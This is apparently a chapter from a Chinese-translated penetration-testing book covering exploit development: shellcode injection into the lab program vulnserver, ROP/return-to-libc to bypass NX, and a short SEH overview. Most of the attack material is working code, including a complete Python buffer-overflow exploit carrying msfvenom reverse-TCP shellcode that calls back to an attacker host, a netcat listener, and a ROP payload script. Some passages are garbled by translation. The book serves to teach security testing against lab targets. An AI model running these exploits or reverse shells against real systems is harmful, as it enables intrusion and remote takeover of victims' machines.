


# 八、利用开发——第二部分

在这一章中，我们将继续我们关于开发的主题。首先，我们将继续并通过注入 Shellcode 来完成前面的示例。然后，我们将讨论一种用于避免 NX 保护机制的新技术（NX 将在最后一章中解释）。

以下是我们将在本章中介绍的主题：

*   注入 Shellcode
*   面向返回的编程
*   结构化异常处理程序

# 注入 Shellcode

现在，让我们继续上一章的示例。在我们控制了指令指针之后，我们需要的是注入一个 Shellcode 并重定向指令指针指向它。

为了实现这一点，我们需要为 Shellcode 找到一个归宿。事实上，这很容易；它只涉及跳转到堆栈。我们现在需要的是找到指示：

1.  启动 vulnserver，然后以管理员身份启动免疫调试器，然后从“文件”菜单中，附加 vulnserver：



2.  点击运行程序图标，然后右键单击并选择搜索；然后，选择所有模块中的所有命令以搜索应用程序本身或任何相关库中的任何指令：


3.  然后我们需要做的是跳转到堆栈来执行 Shellcode；那么，让我们搜索`JMP ESP`指令并点击 Find：


4.  让我们从`kernel32.dll 7DD93132`复制`JMP ESP`的地址，然后在免疫调试器中再次运行 vulnserver，并点击运行程序图标。

您可以使用任何库，而不仅仅是`kernel32.dll`。但是，如果您使用系统的库，例如`kernel32.dll`，则由于 ASLR 机制（将在上一章中解释），每次 Windows 启动时，地址都会更改；但是，如果使用与应用程序相关而与系统无关的库，则地址不会更改。

5.  然后，从攻击机器编辑我们的漏洞如下：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
buffer =''
buffer+= 'A'*2006
buffer += '\x32\x31\xd9\x7d'
buffer+= 'C'*(5000-2006-4)
s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

6.  然后，运行漏洞攻击。指令指针没有指向`43434343`，这是我们的`C`字符：


7.  现在我们可以插入 Shellcode 了。让我们使用 Metasploit 框架创建一个：

```
$ msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=172.16.89.1 LPORT=4321 -b '\x00' -f python
```

8.  此命令在端口`4321`上生成反向 TCP 外壳以连接回我的攻击机器：


9.  因此，我们的最终开发应该如下所示：

```
#!/usr/bin/python
import socket
server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)

junk = 'A'*2006             \\ Junk value to overflow the stack

eip = '\x32\x31\xd9\x7d'    \\ jmp esp

nops = '\x90'*64    \\ To make sure that jump will be inside our shellcode

shellcode = ""
shellcode += "\xbb\x6e\x66\xf1\x4c\xd9\xe9\xd9\x74\x24\xf4\x5a\x2b"
shellcode += "\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x34\x68\x13"
shellcode += "\xb9\x34\x9c\x51\x42\xc4\x5d\x36\xca\x21\x6c\x76\xa8"
shellcode += "\x22\xdf\x46\xba\x66\xec\x2d\xee\x92\x67\x43\x27\x95"
shellcode += "\xc0\xee\x11\x98\xd1\x43\x61\xbb\x51\x9e\xb6\x1b\x6b"
shellcode += "\x51\xcb\x5a\xac\x8c\x26\x0e\x65\xda\x95\xbe\x02\x96"
shellcode += "\x25\x35\x58\x36\x2e\xaa\x29\x39\x1f\x7d\x21\x60\xbf"
shellcode += "\x7c\xe6\x18\xf6\x66\xeb\x25\x40\x1d\xdf\xd2\x53\xf7"
shellcode += "\x11\x1a\xff\x36\x9e\xe9\x01\x7f\x19\x12\x74\x89\x59"
shellcode += "\xaf\x8f\x4e\x23\x6b\x05\x54\x83\xf8\xbd\xb0\x35\x2c"
shellcode += "\x5b\x33\x39\x99\x2f\x1b\x5e\x1c\xe3\x10\x5a\x95\x02"
shellcode += "\xf6\xea\xed\x20\xd2\xb7\xb6\x49\x43\x12\x18\x75\x93"
shellcode += "\xfd\xc5\xd3\xd8\x10\x11\x6e\x83\x7c\xd6\x43\x3b\x7d"
shellcode += "\x70\xd3\x48\x4f\xdf\x4f\xc6\xe3\xa8\x49\x11\x03\x83"
shellcode += "\x2e\x8d\xfa\x2c\x4f\x84\x38\x78\x1f\xbe\xe9\x01\xf4"
shellcode += "\x3e\x15\xd4\x5b\x6e\xb9\x87\x1b\xde\x79\x78\xf4\x34"
shellcode += "\x76\xa7\xe4\x37\x5c\xc0\x8f\xc2\x37\x43\x5f\x95\xc6"
shellcode += "\xf3\x62\x25\xd9\xe2\xea\xc3\xb3\xf4\xba\x5c\x2c\x6c"
shellcode += "\xe7\x16\xcd\x71\x3d\x53\xcd\xfa\xb2\xa4\x80\x0a\xbe"
shellcode += "\xb6\x75\xfb\xf5\xe4\xd0\x04\x20\x80\xbf\x97\xaf\x50"
shellcode += "\xc9\x8b\x67\x07\x9e\x7a\x7e\xcd\x32\x24\x28\xf3\xce"
shellcode += "\xb0\x13\xb7\x14\x01\x9d\x36\xd8\x3d\xb9\x28\x24\xbd"
shellcode += "\x85\x1c\xf8\xe8\x53\xca\xbe\x42\x12\xa4\x68\x38\xfc"
shellcode += "\x20\xec\x72\x3f\x36\xf1\x5e\xc9\xd6\x40\x37\x8c\xe9"
shellcode += "\x6d\xdf\x18\x92\x93\x7f\xe6\x49\x10\x8f\xad\xd3\x31"
shellcode += "\x18\x68\x86\x03\x45\x8b\x7d\x47\x70\x08\x77\x38\x87"
shellcode += "\x10\xf2\x3d\xc3\x96\xef\x4f\x5c\x73\x0f\xe3\x5d\x56"

injection = junk + eip + nops + shellcode
s.send(('TRUN .' + injection + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

10.  现在，让我们再次启动 vulnserver。然后，在攻击机器上设置侦听器：

```
$ nc -lp 4321
```

11.  是时候尝试我们的利用了，让我们关注听众：

```
./exploit.py
```

12.  然后，从侦听器 shell 执行以下命令：


13.  让我们使用`ipconfig`来确认这一点：


14.  现在我们控制了受害者的机器！

# 面向返回的编程

什么是**面向返回的编程**（**ROP**）？

让我们用最简单的方式来解释什么是 ROP。ROP 是一种用于利用缓冲区溢出漏洞的技术，即使启用了 NX。ROP 技术可以使用 ROP 小工具通过 NX 保护技术。

ROP 小工具是已经存储在内存中的机器指令地址序列。因此，如果我们可以将执行流更改为这些指令之一，那么我们就可以控制应用程序，而无需上传 Shellcode。此外，ROP 小工具以`ret`指令结尾。如果你还不明白，没关系；我们将通过一个例子来充分理解 ROP 是什么。

所以，我们需要的是安装 ropper，这是一种在二进制文件中查找 ROP 小工具的工具。您可以通过 GitHub（[上的官方存储库下载 https://github.com/sashs/Ropper](https://github.com/sashs/Ropper) 、 [](https://github.com/sashs/Ropper) 或您可以按照此处给出的说明进行操作：

```
 $ sudo apt-get install python-pip
 $ sudo pip install capstone
 $ git clone https://github.com/sashs/ropper.git
 $ cd ropper
 $ git submodule init
 $ git submodule update
```

让我们看看下一个易受攻击的代码，它将打印出来，执行`overflow`功能，从用户处获取输入，然后将其与输入的大小一起打印出来：

```
#include <stdio.h>
#include <unistd.h>

int overflow() 
{
    char buf[80];
    int r;
    read(0, buf, 500);
    printf("The buffer content %d, %s", r, buf);
    return 0;
}

int main(int argc, char *argv[]) 
{
    printf("Starting /bin/ls");
    overflow();
    return 0;
}
```

让我们编译它，但不禁用 NX：

```
$ gcc -fno-stack-protector rop.c -o rop
```

然后，启动`gdb`：

```
$ gdb ./rop
```

现在，让我们确认 NX 已启用：

```
$ peda checksec
```

在以下屏幕截图中可以看到前面命令的输出：


现在让我们使用 PEDA 而不是 Metasploit 框架执行模糊化和控制 RIP：

```
$ peda pattern_create 500 pattern
```

这将创建一个`500`字符的模式，并保存一个名为`pattern`的文件。现在，让我们将此模式作为输入来阅读：

```
$ run < pattern
```

在以下屏幕截图中可以看到前面命令的输出：


程序崩溃了。下一步是检查堆栈中的最后一个元素，以计算 EIP 的偏移量：

```
$ x/wx $rsp
```

我们得到堆栈中的最后一个元素为`0x41413741`（如果您使用相同的操作系统，则此地址应相同）。现在，让我们看看这个图案的偏移量和下一个偏移量是否是 RIP 的精确偏移量：

```
$ peda pattern_offset 0x41413741
```

在以下屏幕截图中可以看到前面命令的输出：


因此，RIP 的准确偏移量将从`105`开始。让我们确认一下：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += "B"*6
f = open("input.txt", "w")
f.write(buffer)
```

此代码应使用六个`B`字符溢出 RIP 寄存器：

```
$ chmod +x exploit.py
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run < input.txt
```

在以下屏幕截图中可以看到前面命令的输出：


前面的屏幕截图表明我们正朝着正确的方向前进。

由于启用了 NX，我们无法上传和运行 Shellcode，所以让我们使用 ROP 和返回 libc 技术，这使我们能够使用来自 libc 本身的调用，这使我们能够调用函数。在这里，我们将使用`system`函数来执行 shell 命令。让我们看一看系统 ALE T1 页：

```
$ man 3 system
```

在以下屏幕截图中可以看到前面命令的输出：



我们需要的是`system`函数的地址以及 shell 命令字符串的位置幸运的是，我们在`/bin/ls`代码中有这个位置。

我们所做的唯一一件事就是将字符串的位置复制到堆栈中。现在，我们需要找到一种将位置复制到 RDI 寄存器的方法，以使系统功能能够执行`ls`命令。因此，我们需要 ROP 小工具，它可以提取字符串的地址并将其复制到 RDI 寄存器，因为第一个参数应该在 RDI 寄存器中。

好的，让我们从 ROP 小工具开始。让我们搜索与 RDI 寄存器相关的任何 ROP 小工具。然后，导航到安装 ropper 的位置：

```
$ ./Ropper.py --file /home/stack/buffer-overflow/rop/rop --search "%rdi"
```

在以下屏幕截图中可以看到前面命令的输出：


这个 ROP 小工具非常完美：`pop rdi; ret;`，地址为`0x0000000000400653`。现在，我们需要从 GDB 内部找出`system`函数在内存中的确切位置：

```
$ p system
```

在以下屏幕截图中可以看到前面命令的输出：


现在，我们还得到了地址为`0x7ffff7a57590`的`system`函数的位置。

此地址在您的操作系统上可能不同。

让我们使用 GDB 获取`/bin/ls`字符串的位置：

```
$ find "/bin/ls"
```

在以下屏幕截图中可以看到前面命令的输出：


现在，我们已经得到了地址为`0x400697`的字符串的位置。

堆栈的逻辑顺序应为：

1.  `system`函数的地址
2.  字符串指针，将弹出到 RDI 寄存器
3.  用于提取 pop 的 ROP 小工具，pop 是 RDI 寄存器堆栈中的最后一个元素

现在，我们需要使用我们的攻击代码，以相反的顺序将它们推入堆栈：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += pack("<Q", 0x0000000000400653) # <-- ROP gadget
buffer += pack("<Q", 0x400697) #  <-- pointer to "/bin/ls"
buffer += pack("<Q", 0x7ffff7a57590) # < -- address of system function

f = open("input.txt", "w")
f.write(buffer)
```

让我们运行脚本来更新`input.txt`：

```
$ ./exploit.py
```

然后，从 GDB 运行以下命令：

```
$ run < input.txt
```

堆栈的逻辑顺序应如下所示：


成功了！如您所见，`ls`命令执行成功。我们找到了绕过 NX 保护并利用此代码的方法。

# 结构化异常处理

**结构化异常处理**（**SEH**只是代码执行过程中发生的事件。我们可以看到高级编程语言中的 SEH，如 C++和 Python。请看下面的代码：

```
try:
    divide(6,0)
except ValueError:
    print "That value was invalid."
```

这是一个除以零的示例，它将引发异常。程序应该将执行流更改为其他内容，即在其内部执行任何操作。

SEH 由两部分组成：

*   例外注册记录（SEH）
*   下一个异常注册记录（nSEH）

它们按相反的顺序被推入堆栈。那么现在如何利用 SEH 呢？它与常规堆栈溢出一样简单：


这就是我们的剥削应该是什么样子。我们需要的就是将指令**pop-pop-ret**推入**SEH**以跳转到**nSEH**。然后，将跳转指令推入**nSEH**以跳转到 Shellcode；因此，我们的最终 Shellcode 应该如下所示：


我们将在[第 11 章](11.html#37UDA0-5bf3e26315164e77bbeecc4f75207114)、*真实世界场景–第 3 部分*中介绍一个关于利用 SEH 的实际场景。

# 总结

在这里，我们简要讨论了开发，从模糊化和如何控制指令指针开始。然后，我们看到了如何为 Shellcode 找到一个归宿，并将执行流更改为该 Shellcode。最后，我们讨论了一种绕过 NX 保护技术的称为 ROP 的技术，并简要介绍了 SEH 利用技术。

在下一章中，我们将介绍*真实场景*，并为真实应用程序构建一个漏洞。